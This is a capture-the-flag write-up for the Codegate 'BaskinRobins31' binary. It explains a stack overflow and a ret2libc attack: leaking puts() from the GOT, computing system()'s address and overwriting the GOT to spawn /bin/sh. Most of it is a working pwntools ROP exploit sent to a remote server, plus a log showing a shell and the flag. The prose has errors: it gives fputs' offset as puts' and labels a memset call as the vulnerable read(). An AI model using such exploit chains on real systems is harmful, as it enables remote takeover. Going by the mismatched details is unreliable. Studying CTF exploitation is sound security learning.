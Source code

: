 ``bash
file file BaskinRobins31
```
>BaskinRobins31: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4abb416c74a16aaa8b4c9c6c366bed445c306037, not stripped

this task  involves leaking a libc function’s address from the GOT, and using it to determine the addresses of other functions in libc that we can return to.

The vulnerability is in the your_turn() function, where read() is allowed to write 0x190 (400 bytes) into a 0x96 (150 bytes) buffer
the following code shows the vulnerable part of the function 
```assembly
mov    edx,0x96 #150 bytes 
mov    esi,0x0 #fill buffer with 0
mov    rdi,rax #copy adr of buffer to rdi 
call   0x4006f0 <memset@plt> #memset(rdi,0,0x96)
```
**The high level solution to exploiting this is as follows:**
1. Leak the address of a library function in the GOT. In this case, we’ll leak puts()’s GOT entry
2. Get libc’s base address so we can calculate the address of other library functions. 
3. Compute system()'s address 
4. Overwrite a GOT entry’s address (puts) with system()’s address
5. Write **/bin/sh** to writeable area , in this case .bss
6. Invoke system("/bin/sh")


**Leaking a libc address**
Grab puts()’s entry in the GOT:

```bash
$ objdump -R BaskinRobins31 |grep "puts"
0000000000602020 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
```
If we can write puts()’s GOT entry back to us,We can do that by overwriting your_turn()’s saved return pointer to setup a ret2plt; in this case, write@plt. 
Since we’re exploiting a 64-bit binary, we need to populate the RDI, RSI, and RDX registers with the arguments for write(). 
So we need to return to a ROP gadget that sets up these registers, and then we can return to write@plt.
**Get libc’s base address**
Next we need to calculate libc’s base address in order to get the address of any library function, or even a gadget, in libc.
```bash
$ ldd BaskinRobins31 
	linux-vdso.so.1 =>  (0x00007ffc10bb0000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f8688442000)
	/lib64/ld-linux-x86-64.so.2 (0x00005621769b1000)
```

/lib/x86_64-linux-gnu/libc.so.6 contains the offsets of all the functions available to us in libc. To get puts()’s offset, we can use readelf:

```bash
$ readelf -s /lib/x86_64-linux-gnu/libc.so.6|grep "puts"
   186: 000000000006f690   456 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
   404: 000000000006f690   456 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
   475: 000000000010bbe0  1262 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
   651: 000000000010d590   703 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
  1097: 000000000006e030   354 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
  1611: 000000000006e030   354 FUNC    GLOBAL DEFAULT   13 _IO_fputs@@GLIBC_2.2.5
  2221: 00000000000782b0    95 FUNC    WEAK   DEFAULT   13 fputs_unlocked@@GLIBC_2.2.5
```
puts()’s offset is at 0x6e030. Subtracting this from the leaked puts()’s address will give us libc’s base address.
To find the address of any library function, we just do the reverse and add the function’s offset to libc’s base address. 
So to find system()’s address, we get its offset from libc.so.6, and add it to libc’s base address.

**Overwrite a GOT entry’s address**
Now that we can get any library function address, we can do a ret2libc to complete the exploit. 
We’ll overwrite puts()’s GOT entry with the address of system(), so that when we trigger a call to puts(), it will call system(“/bin/sh”) instead


1.    Overwrite puts()’s GOT entry with the address of system() using read@plt.
2.    Write “/bin/sh” somewhere in memory using read@plt. We’ll use 0x602090 since it’s a writable location with a static address.
3.    Set RDI to the location of “/bin/sh” and return to system().

Here is the final exploit 
```python
#!/usr/bin/python

from pwn import * 

#p=process('./BaskinRobins31')
p=remote("ch41l3ng3s.codegate.kr",3131)
puts_off = 0x06f690
system_off = 0x45390
writeable = 0x602090 #.bss
puts_got = 0x00602020
puts_plt = 0x4006c0
mov_3pop = 0x400877
write_plt = 0x4006d0
read_plt = 0x400700

payload = ""
payload += "A"*(176) #Junk
payload += p64(0xcafebabe) #rbp
payload += p64(mov_3pop) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) #rdi
payload += p64(puts_got) #puts@got  => addr to read from 
payload += p64(0x8) #rdx-number of bytes to be written to stdout
payload += p64(write_plt) #write@plt



#Stage 1 :overwrite puts@got with system_adr
payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x0) #rdi stdin 
payload += p64(puts_got) #puts@got ==> addr to write to 
payload += p64(0x8) #size to be read
payload += p64(read_plt) #read@plt

#Stage 2 :write /bin/sh to .bss

payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x0) #rdi 
payload += p64(writeable) #rsi adr to write '/bin/sh' to 
payload += p64(0x8) #size to be read from stdin
payload += p64(read_plt) #read@plt


#Stage 3 : set RDI to "/bin/sh" and call system()
payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(writeable) #rdi ==>adr of '/bin/sh'
payload += p64(0x1) #junk
payload += p64(0x1) #junk
payload += p64(puts_plt) #puts@got which become system()



p.sendline(payload)
p.recvuntil(":(")
leaked_addr = p.recv(8)
puts_libc=hex(u64(leaked_addr))[:-4]
print "[+] Puts is at :"+puts_libc
libc_base = int(puts_libc,16) - puts_off
print "[+] Libc base is", hex(libc_base)
system_addr = libc_base + system_off
print "[+] System() is at", hex(system_addr)
print "[+] Sending system_addr", hex(system_addr)
p.send(p64(system_addr))
print "[+] Sending '/bin/sh'"
p.send("/bin/sh")
p.interactive(">> ")
#flag{The Korean name of "Puss in boots" is "My mom is an alien"}

```
I’ve commented the code heavily, so hopefully that will explain what’s going on ;) 
```
anisboss@anisboss-PC:/tmp/codegate/pwn$ python exploit.py 
[+] Opening connection to ch41l3ng3s.codegate.kr on port 3131: Done
[+] Puts is at :0x7f4c8f872690
[+] Libc base is 0x7f4c8f803000
[+] System() is at 0x7f4c8f848390
[+] Sending system_addr 0x7f4c8f848390
[+] Sending '/bin/sh'
[*] Switching to interactive mode
\x00\x00>> ls
BaskinRobins31
flag
>> cat flag
flag{The Korean name of "Puss in boots" is "My mom is an alien"}
```
